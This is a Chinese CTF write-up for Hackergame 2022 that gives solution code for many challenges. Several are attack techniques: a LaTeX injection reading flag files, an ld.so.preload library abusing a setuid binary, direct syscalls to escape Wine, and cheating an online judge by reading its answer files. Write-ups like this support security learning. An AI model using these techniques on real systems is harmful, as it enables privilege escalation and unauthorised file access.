



# Hackergame 2022 部分 WriteUp

## 签到

&emsp;&emsp;今年的签到题比 Hackergame 2021 简单了不少，直接改 URL 后面的 result 为 2022 即可：

```text
http://202.38.93.111:12022/?result=2022
```

## 猫咪问答

* 成立时间：`2017-03`｜[传送门](https://cybersec.ustc.edu.cn/2022/0826/c23847a565848/page.htm)

* KDE 程序：`Kdenlive`｜[传送门](https://ftp.lug.ustc.edu.cn/%E6%B4%BB%E5%8A%A8/2022.9.20_%E8%BD%AF%E4%BB%B6%E8%87%AA%E7%94%B1%E6%97%A5/slides/gnome-wayland-user-perspective.pdf)~~（你问我怎么知道的？因为我用过）~~

* Firefox 版本：`12`｜[传送门](https://firefox.softwaredownload.co.in/windows-2000)

* Commit Hash：`dcd46d897adb70d63e025f175a00a89797d31a43`｜[传送门](https://github.com/torvalds/linux/commit/dcd46d897adb70d63e025f175a00a89797d31a43)

* 连接的域名：`sdf.org`｜[传送门](https://docs.zeek.org/en/master/logs/ssh.html)（需要再通过 ip 查域名）

* 「网络通」资费：`2003-03-01`｜[传送门](https://ustcnet.ustc.edu.cn/2003/0301/c11109a210890/page.htm)

## 家目录里的秘密

### VSCode 里的 flag

&emsp;&emsp;解压完直接 grep flag：

```zsh
grep -r -E 'flag\{.*\}' user
```

### Rclone 里的 flag

&emsp;&emsp;注意到有一个 `rclone.conf` 文件，我们可以把 pass 解密：

```conf
[flag2]
type = ftp
host = ftp.example.com
user = user
pass = tqqTq4tmQRDZ0sT_leJr7-WtCiHVXSMrVN49dWELPH1uce-5DPiuDtjBUN3EI38zvewgN5JaZqAirNnLlsQ
```

* 参考 [Get Password and Salt From Config](https://forum.rclone.org/t/get-password-and-salt-from-config/14788) 和 [How to retrieve a ‘crypt’ password from a config file](https://forum.rclone.org/t/how-to-retrieve-a-crypt-password-from-a-config-file/20051)

## HeiLang

&emsp;&emsp;做几次正则替换，把代码变成这样即可：

```python
import numpy as np

a = np.zeros((10000,), dtype=int)

a[np.array([1225, 2381, 2956, 3380, 3441, 4073, 4090, 4439, 5883, 6253, 7683, 8231, 9933])] = 978
a[np.array([412, 5923, 7217, 7289, 7336, 9991, 9995])] = 51
```

## Xcaptcha

&emsp;&emsp;用 Python 模拟请求，实现快速计算：

```python
import re

import httpx

token = '******'

client = httpx.Client(follow_redirects=True)

client.get(
    'http://202.38.93.111:10047/xcaptcha', params={
        'token': token
    }
)

resp = client.get('http://202.38.93.111:10047/xcaptcha')
result = [eval(it) for it in re.findall(r'([+\d]+) 的结果是？', resp.text)]

payload = dict(zip([f'captcha{it}' for it in (1, 2, 3)], result))

resp = client.post(
    'http://202.38.93.111:10047/xcaptcha', data=payload
)

print(resp.text)

```

## 旅行照片 2.0

### 照片分析

&emsp;&emsp;十分简单，随便找个能看 EXIF 的工具就行（甚至在线）

### 社工入门

&emsp;&emsp;Yandex 图搜索，可知照片中的场馆为 [ZOZO 海洋球场](https://zh.wikipedia.org/zh-cn/%E5%8D%83%E8%91%89%E6%B5%B7%E6%B4%8B%E7%90%83%E5%A0%B4)，对比 Google Map 得知拍照人位于东南方的 APA Hotel，邮编为 `261-0021`。

&emsp;&emsp;根据上一题中的手机品牌，结合玻璃反射的摄像头形状，稍加搜索就能找到手机型号是 [Redmi 9T](https://www.mi.com/jp/product/redmi-9t/)，于是得到分辨率为 `2340x1080`

&emsp;&emsp;观察飞机的方向，能在地图上找到东京国际机场，推测飞机很可能就是从这里起飞的。到 [flightradar24](https://www.flightradar24.com/) 上查看当日航班信息 ~~（记得取消订阅）~~，可以得到剩下的几条信息：


## 猜数字

&emsp;&emsp;一开始被题目给绕进去了，以为是要玩随机种子碰撞，后来仔细研究了判断代码，这里摘录一段：

```java
var guess = Double.parseDouble(event.asCharacters().getData());

var isLess = guess < this.number - 1e-6 / 2;
var isMore = guess > this.number + 1e-6 / 2;

var isPassed = !isLess && !isMore;
```

&emsp;&emsp;即不大于也不小于……除了等于之外，还有 `NaN` 嘛！提交 `NaN` 即可；如果不想用 Python 模拟请求，也可以在网页打断点，请求发送之前改掉数据

## LaTeX 机器人

### 纯文本

&emsp;&emsp;简单查阅 latex 语法，填入 `\input{/flag1}` 即可

### 特殊字符混入

&emsp;&emsp;自己做了一天也没做出来…… 果然这玩意还得是看 [前人的智慧](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)

```tex
\catcode `\#=12
\catcode `\_=12
\input{/flag2}
```

## Flag 的痕迹

&emsp;&emsp;[官方文档](https://www.dokuwiki.org/recent_changes) 指出：除了查看历史记录，还能够查看编辑前后的差异信息，所以只需要访问 `/doku.php?id=start&do=diff` 查看编辑记录，就能找到 flag

## 安全的在线测评

### 无法 AC 的题目

&emsp;&emsp;十分简单，直接读评测数据并输出就行了：

```c
#include <stdio.h>

int main() {
    FILE *fp = fopen("/proc/self/cwd/data/static.out", "r");

    char buffer[4096];
    while (fscanf(fp, "%s", buffer) != EOF) {
        printf("%s\n", buffer);
    }

    return 0;
}

```

### 动态数据

&emsp;&emsp;参考 [How to Embed Binary Data in Program Code](http://elm-chan.org/junk/32bit/binclude.html) 的实现，用内联汇编将 `.out` 文件包含进程序中，同时用共享内存计数，判断是第几组数据：

```c
#include <stdio.h>
#include <sys/shm.h>

#define IMPORT(path, name)                                        \
    __asm__(                                                      \
        ".section .rodata\n\t"                                    \
        ".global " #name "_addr\n\t"                              \
        ".balign 16\n"                                            \
        #name "_addr:\n\t"                                        \
        ".incbin " #path "\n\t"                                   \
        ".byte 0\n\t"                                             \
    );                                                            \
    extern const __attribute__((aligned(16))) void *name##_addr;

IMPORT("data/dynamic0.out", dynamic0);
IMPORT("data/dynamic1.out", dynamic1);
IMPORT("data/dynamic2.out", dynamic2);
IMPORT("data/dynamic3.out", dynamic3);
IMPORT("data/dynamic4.out", dynamic4);

int main() {
    int id = shmget(114514, 0x1000, IPC_CREAT | 0666);
    char *addr = (char *) shmat(id, NULL, 0);

    if (addr[0] == 0) {
        FILE *fp = fopen("/proc/self/cwd/data/static.out", "r");

        char buffer[4096];
        while (fscanf(fp, "%s", buffer) != EOF) {
            printf("%s\n", buffer);
        }
    } else {
        switch (addr[0]) {
            case 1: {
                printf("%s", (char *) &dynamic0_addr);
                break;
            }
            case 2: {
                printf("%s", (char *) &dynamic1_addr);
                break;
            }
            case 3: {
                printf("%s", (char *) &dynamic2_addr);
                break;
            }
            case 4: {
                printf("%s", (char *) &dynamic3_addr);
                break;
            }
            case 5: {
                printf("%s", (char *) &dynamic4_addr);
                break;
            }
        }
    }

    addr[0] += 1;

    return 0;
}

```

## 线路板

&emsp;&emsp;通信人想起了实验室坐牢的时光…… 找一个能在线看 Gerber 文件的网站，查看 `ebaz_sdr-F_Cu.gbr` 即可：


## Flag 自动机

&emsp;&emsp;貌似大家都是用 IDA 做的（？），然而我不会这个，只能用 CE 了。需要改几个点：

* 第一处




&emsp;&emsp;这里将 `[ebp + 14]` 与 114514 比较 ~~（怎么哪里都有 homo）~~，如果相等则跳到下面的 `"Congratulations"` xxxxxx，否则进入 `"Error"` xxxxxxx，所以直接把这个指令替换成 `jmp`

* 第二处



&emsp;&emsp;为了防止按钮到处乱跑，需要把这里的两个 `msvcrt.rand` 全部换成 `nop`

&emsp;&emsp;两处替换完成之后，点击「狠心夺取」即可通关

## 微积分计算小练习

&emsp;&emsp;「姓名」一栏的内容会被直接字符串拼接进最终的网页，结合 `bot.py`，可以考虑注入一段脚本，在姓名加载后，将分数一栏替换成 `document.cookie`：

```html

```

## 杯窗鹅影

&emsp;&emsp;[Wine 似乎没有什么很好的手段拦截直接进行的系统调用](https://lwn.net/Articles/824380/)，基于此，我们可以把 syscall 以内联汇编的形式写进可执行文件，两个问都可以通过：

* Flag 1

```c
#include <stdio.h>
int main() {
    int tmp;
    const char buffer[256] = {'/', 'f', 'l', 'a', 'g', '1', '\0'};

    __asm__ __volatile__ (
        "syscall"
        : "=a"(tmp)
        : "0"(2 /* SYS_open */), "D"(buffer), "S"(0 /* O_RDONLY */)
        : "memory"
    );

    __asm__ __volatile__ (
        "syscall"
        : "=a"(tmp)
        : "0"(0 /* SYS_read */), "D"(tmp), "S"(buffer), "d"(sizeof(buffer))
        : "memory"
    );

    printf("%s\n", buffer);

    return 0;
}
```

* Flag 2

```c
#include <stdio.h>

int main() {
    int tmp;
    const char buffer[256] = {'/', 'r', 'e', 'a', 'd', 'f', 'l', 'a', 'g', '\0'};

    __asm__ __volatile__ (
        "syscall"
        : "=a"(tmp)
        : "0"(59 /* SYS_execve */), "D"(buffer), "S"(0), "d"(0)
        : "memory"
    );

    printf("%s\n", buffer);

    return 0;
}
```

&emsp;&emsp;以及为什么拿到这两个 Flag 的人数会相差这么多，难道还有什么别的解法么🤔

## 蒙特卡罗轮盘赌

&emsp;&emsp;根据源代码文件，其随机种子由时间生成，那么我们就可以从一个大致的时间开始，暴力枚举可能的随机种子，并通过前两个数字来判断其正确性：

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <math.h>

double frand() {
    return (double) rand() / RAND_MAX;
}

double sample() {
    const int N = 400000;

    int cnt = 0;
    for (int j = 0; j < N; j++) {
        double x = frand();
        double y = frand();
        if (x * x + y * y < 1) cnt++;
    }

    return (double) cnt / N * 4;
}

int main(int argc, char *argv[]) {
    long from;
    sscanf(argv[1], "%ld", &from);

    double first, second;
    sscanf(argv[2], "%lf", &first);
    sscanf(argv[3], "%lf", &second);

    const double threshold = 0.00005;

    printf("searching (T=%ld, floats=%lf, %lf)...\n", from, first, second);
    for (long T = from; T < from + 10; T++) {
        for (long clk = 0; clk < 1000; clk++) {
            srand((unsigned) T + clk);
            double result = sample();
            if (fabs(result - first) > threshold) continue;

            result = sample();
            if (fabs(result - second) > threshold) continue;

            printf("result for T=%ld: \n", T);
            for (int i = 0; i < 3; i++) {
                printf("%.5lf\n", sample());
            }
            printf("\n");
        }
        printf("%ld epochs\n", (T - from + 1) * 1000);
    }

    return 0;
}

```

&emsp;&emsp;本题对时间要求较为严格，故采用 nc 连接：

```bash
date +%s
nc 202.38.93.111 10091
```

## 光与影

&emsp;&emsp;不难发现 `fragment-shader.js` 里就是渲染代码，其中有一个奇怪名字的函数 `mk_homo`😰，创建本地 Override 并把它改成这样：

```cpp
vec4 mk_homo(vec3 orig) {
    return vec4(orig.x, orig.y - 20.0, orig.z, 1.2);
}
```

&emsp;&emsp;刷新页面，flag 就会上移到遮挡外面：



* P.S. `F` 和 `i` 之间这个 `-` 特别不明显，导致我一开始没看出来，错失一血（

## 传达不到的文件

* 这应该是一个非常规解法

### 打不开

&emsp;&emsp;我们有一个 `04111` 权限的 `chall` 文件，而且所属用户是 0（root），再一联想到 Zygisk 的注入机制，诶这不就有办法了嘛！写一个动态链接库，然后让 ld.so 为我们加载：

```c
#include <stdio.h>

__attribute__((constructor)) void hack() {
    FILE* fp = fopen("flag2", "r");
    char flag[256];
    fscanf(fp, "%[^\n]", flag);
    printf("Hacked!\n");
    printf("%s\n", flag);
}

```

&emsp;&emsp;编译为 `hack.so`，然后通过 base64 发送到题目环境，再通过 `echo /hack.so > /etc/ld.so.preload` 写入配置，此时执行 `/chall` 即可越权读到 `flag2` 文件

### 读不到

&emsp;&emsp;把刚刚的程序改一下，让我们的 chall 在执行时把自己 chmod 成 0777 权限：

```c
#include <stdio.h>
#include <sys/stat.h>

__attribute__((constructor)) void hack() {
    printf("Hacked!\n");
    chmod("/chall", 0777);
}

```

&emsp;&emsp;然后就可以通过 `strings /chall` 获取 flag

## 看不见的彼方

&emsp;&emsp;共享内存通信即可：

```c Alice.c
#include <stdio.h>
#include <string.h>
#include <sys/shm.h>

int main() {
    FILE *fp = fopen("/secret", "r");
    char buffer[0x1000];
    fscanf(fp, "%[^\n]s", buffer);
    fclose(fp);

    int id = shmget(114514, 0x1000, IPC_CREAT | 0666);
    void *addr = shmat(id, NULL, 0);
    memcpy(addr, buffer, sizeof(buffer));
}

```

```c Bob.c
#include <stdio.h>
#include <string.h>
#include <sys/shm.h>

int main(void) {
    int id = shmget(114514, 0x1000, IPC_CREAT | 0666);
    void *addr = shmat(id, NULL, 0);

    char buffer[0x1000];
    for (;;) {
        memcpy(buffer, addr, sizeof(buffer));
        if (strlen(buffer)) {
            printf("%s\n", buffer);
            break;
        }
    }

    return 0;
}

```

## 企鹅拼盘（前两问）

### 这么简单我闭眼都可以！

&emsp;&emsp;只有 16 种可能，完全可以手动枚举

### 大力当然出奇迹啦~

&emsp;&emsp;解空间扩大到了 65536，但还是可以暴力枚举，以下贴出一个 Rust 多线程加速的暴力程序：

```rust
use std::error::Error;
use std::fs;
use std::path::PathBuf;

use clap::Parser;
use rayon::prelude::*;
use serde_json::Value;

#[derive(Parser)]
#[clap(version, about)]
struct Args {
    #[clap()]
    length: u32,

    #[clap()]
    rule_json: PathBuf,
}

#[derive(Debug)]
struct Board {
    map: Vec<Vec<u8>>,
    cursor: (usize, usize),
}

impl Board {
    const EMPTY: u8 = 15;

    fn new() -> Self {
        let mut map = vec![vec![0; 4]; 4];
        for i in 0 .. 4 {
            for j in 0 .. 4 {
                map[i][j] = (i * 4 + j) as u8
            }
        }
        Board { map, cursor: (3, 3) }
    }


    fn update(&mut self, moves: Vec<char>) {
        for op in moves {
            let (x, y) = self.cursor;
            match op {
                'L' => {
                    self.map[x][y] = self.map[x][y - 1];
                    self.map[x][y - 1] = Self::EMPTY;
                    self.cursor.1 -= 1;
                }
                'R' => {
                    self.map[x][y] = self.map[x][y + 1];
                    self.map[x][y + 1] = Self::EMPTY;
                    self.cursor.1 += 1;
                }
                'U' => {
                    self.map[x][y] = self.map[x - 1][y];
                    self.map[x - 1][y] = Self::EMPTY;
                    self.cursor.0 -= 1;
                }
                'D' => {
                    self.map[x][y] = self.map[x + 1][y];
                    self.map[x + 1][y] = Self::EMPTY;
                    self.cursor.0 += 1;
                }
                _ => panic!(),
            }
        }
    }

    fn is_win(&self) -> bool {
        for i in 0 .. 4 {
            for j in 0 .. 4 {
                if self.map[i][j] as usize != i * 4 + j {
                    return true;
                }
            }
        }
        false
    }
}

fn main() -> Result<(), Box<dyn Error>> {
    let args = Args::parse();
    
    let json = fs::read_to_string(args.rule_json).unwrap();
    let rule: Value = serde_json::from_str(&json).unwrap();

    (0 .. 1 << args.length).into_par_iter().for_each(|x| {
        let mut board = Board::new();
        for i in 0 .. rule.as_array().unwrap().len() {
            let index = rule[i][0].as_u64().unwrap() as u32;
            if x & (1 << (args.length - index - 1)) != 0 {
                board.update(rule[i][1].as_str().unwrap().chars().collect());
            } else {
                board.update(rule[i][2].as_str().unwrap().chars().collect());
            }
        }

        if board.is_win() {
            println!("answer found: {:0>1$b}", x, args.length as usize);
        }
    });

    Ok(())
}

```

* 用法

```bash
cargo run <length> <json-path>
```

## 偷偷引流

&emsp;&emsp;最后偷偷引个流：[我的博客](https://blog.mufanc.xyz/)
